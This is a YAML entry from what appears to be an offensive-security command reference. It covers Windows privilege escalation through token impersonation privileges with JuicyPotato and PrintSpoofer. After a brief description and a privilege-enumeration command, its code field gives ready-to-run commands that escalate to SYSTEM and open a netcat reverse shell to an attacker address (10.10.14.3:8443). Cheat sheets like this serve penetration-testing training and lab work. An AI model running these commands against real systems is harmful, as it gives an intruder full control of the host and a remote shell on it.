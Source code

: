 ---
description: |
  Enumerate and exploit Windows token impersonation privileges (SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege) for privilege escalation. Demonstrates how attackers can leverage these privileges using tools like JuicyPotato and PrintSpoofer to escalate from service accounts to SYSTEM, highlighting the risk of misconfigured token privileges in post-exploitation scenarios.

  Command Reference:

      Target: Local Windows machine with token impersonation privileges

command: |
  whoami /priv | findstr /i "SeImpersonate SeAssignPrimaryToken"

code: |
  c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://www.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/token-privileges
  - https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment
  - https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/
  - https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/securing-active-directory